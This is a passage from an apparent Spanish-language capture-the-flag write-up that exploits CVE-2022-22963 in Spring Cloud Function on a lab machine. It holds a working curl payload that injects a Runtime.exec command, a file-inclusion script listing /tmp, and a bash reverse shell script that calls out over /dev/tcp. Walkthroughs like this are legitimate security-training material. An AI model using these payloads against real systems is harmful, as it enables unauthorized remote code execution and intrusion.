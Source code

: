 <a href='https://github.com/me2nuk/CVE-2022-22963' style='color: yellow'>CVE-2022-22963</a>

```bash
❯ curl -X POST  http://10.129.178.70:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")' --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.129.178.70:8080...
* Connected to 10.129.178.70 (10.129.178.70) port 8080 (#0)
> POST /functionRouter HTTP/1.1
> Host: 10.129.178.70:8080
> User-Agent: curl/7.87.0
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 500 
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Sun, 12 Mar 2023 00:07:14 GMT
< Connection: close
< 
* Closing connection 0
{"timestamp":"2023-03-12T00:07:14.058+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}# 
```

```bash
❯ ./lfi.sh -f /tmp

[+] Este es el contenido del archivo /tmp:

.font-unix
.ICE-unix
.Test-unix
.X11-unix
.XIM-unix
hsperfdata_frank
pwned
systemd-private-840313210de241c39ba0368a2586a260-ModemManager.service-ymXHsh
systemd-private-840313210de241c39ba0368a2586a260-systemd-logind.service-26MTMf
systemd-private-840313210de241c39ba0368a2586a260-systemd-resolved.service-GKn8Of
systemd-private-840313210de241c39ba0368a2586a260-systemd-timesyncd.service-ZBQ44g
tomcat.8080.11658069285978605584
tomcat-docbase.8080.14595190991935612181
vmware-root_738-2999591909
```

Como podemos crear cosas vamos a subir una `reverse shell`

```bash
❯ catn reverse.sh
#!/bin/bash

bash -i >& /dev/tcp/IP/443 0>&1
```
